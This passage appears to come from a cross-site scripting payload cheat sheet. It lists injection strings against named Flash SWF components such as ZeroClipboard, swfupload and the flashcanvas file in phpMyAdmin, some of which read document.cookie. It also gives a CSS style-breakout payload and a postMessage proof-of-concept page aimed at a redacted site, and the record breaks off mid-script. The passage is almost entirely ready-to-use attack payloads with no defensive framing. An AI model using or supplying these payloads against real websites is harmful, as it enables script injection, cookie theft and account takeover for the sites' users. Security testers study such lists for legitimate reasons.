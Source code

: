 more payloads in ./files

### XSS in SWF flash application

```
flashmediaelement.swf?jsinitfunctio%gn=alert`1`
flashmediaelement.swf?jsinitfunctio%25gn=alert(1)
ZeroClipboard.swf?id=\"))} catch(e) {alert(1);}//&width=1000&height=1000
swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
swfupload.swf?buttonText=test<a href="javascript:confirm(1)"><img src="https://web.archive.org/web/20130730223443im_/http://appsec.ws/ExploitDB/cMon.jpg"/></a>&.swf
plupload.flash.swf?%#target%g=alert&uid%g=XSS&
moxieplayer.swf?url=https://github.com/phwd/poc/blob/master/vid.flv?raw=true
video-js.swf?readyFunction=alert(1)
player.swf?playerready=alert(document.cookie)
player.swf?tracecall=alert(document.cookie)
banner.swf?clickTAG=javascript:alert(1);//
io.swf?yid=\"));}catch(e){alert(1);}//
video-js.swf?readyFunction=alert%28document.domain%2b'%20XSSed!'%29
bookContent.swf?currentHTMLURL=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4
flashcanvas.swf?id=test\"));}catch(e){alert(document.domain)}//
phpmyadmin/js/canvg/flashcanvas.swf?id=test\”));}catch(e){alert(document.domain)}//
```

### XSS in CSS

```html
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```

## XSS in PostMessage

> If the target origin is asterisk * the message can be sent to any domain has reference to the child page.

```html
<html>
<body>
    <input type=button value="Click Me" id="btn">
</body>

<script>
document.getElementById('btn').onclick = function(e){
    window.poc = window.open('http://www.redacted.com/#login');
    setTimeout(function(){
        window.poc.postMessage(
            {
                "sender": "accounts",
                "url": "javascript:confirm('XSS')",
            },
            '*'
        );
```